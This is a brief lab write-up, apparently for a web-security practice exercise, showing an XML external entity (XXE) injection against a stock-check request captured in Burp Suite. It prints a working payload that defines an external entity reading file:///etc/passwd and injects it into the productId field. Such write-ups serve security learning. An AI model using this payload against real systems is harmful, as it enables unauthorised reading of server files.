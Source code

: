hello , welcome back

This lab about new problems with xml injection :
Let's cook it :

![Alt text](image.png)

This is your question :

Look at screen show merchandise we 'll see that :
![Alt text](image-1.png)
Scroll to bottom of pages we see one input to chose where? to see item from database

while you catch the request by burp suite we will see :
![Alt text](image-2.png)

Wow it is XML form :
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>2</storeId>
</stockCheck>

 use this payload :                     <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

 to be that :

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>2</storeId>
</stockCheck>
then it will successful 
![Alt text](image-3.png)

Happy @@@ good luck